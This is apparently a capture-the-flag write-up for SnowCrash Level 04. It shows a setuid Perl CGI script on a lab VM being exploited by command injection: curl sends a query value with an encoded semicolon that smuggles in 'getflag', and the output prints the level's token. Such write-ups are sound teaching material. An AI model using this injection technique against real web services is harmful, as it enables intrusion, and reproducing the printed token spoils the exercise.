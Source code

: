 # SnowCrash Level 04

## Introduction
Welcome to SnowCrash Level 04! In this level, we embarked on a journey to explore and understand the environment in which the challenge is set.

## Initial Exploration
We began by inspecting the directory for potentially interesting files using commands like `find -iname` and `find -user`, along with the regular `ls` in the working directory. We discovered a Perl script named `level04.pl` and some other files located in `/rofs/var/www/level04` and `/var/www/level04`, indicating an Apache2 server running this Perl script on port 4747.

## Experimentation with Curl
Using `curl "http://192.168.56.102:4747/?x=lala"`, we observed that it simply printed "lala" in the terminal. However, when we attempted `curl "http://192.168.56.102:4747/?x=ls"`, it did not execute `ls`, indicating it was not the solution. We also tried to manipulate the script using malicious echoes, but the script had its own environment variables, ruling out that approach.

## Identification of Setuid and Setgid
Upon further inspection using `ls`, we noted:
```
-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
The script is running with the two 's' bits set, indicating it runs as flag04 and executes commands as flag04.

## Crafting the Exploit
We then attempted to use special characters like so: `curl "http://192.168.56.102:4747/?x=lala%3Bgetflag"`. Though it didn't work initially, we quickly replaced the semicolon with its URL code, `%3B`, and succeeded:

```bash
level04@SnowCrash:~$ curl "http://192.168.56.102:4747/?x=lala%3Bgetflag"
Check flag. Here is your token: ne2searoevaevoem4ov4ar8ap
